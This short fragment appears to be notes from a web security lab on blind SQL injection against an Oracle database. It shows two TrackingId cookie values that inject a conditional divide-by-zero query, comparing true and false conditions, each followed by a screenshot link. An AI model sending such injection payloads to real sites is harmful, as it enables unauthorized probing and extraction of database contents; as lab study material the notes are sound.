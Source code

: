 * Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';

![alt text](image-33.png)

* Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';

![alt text](image-34.png)
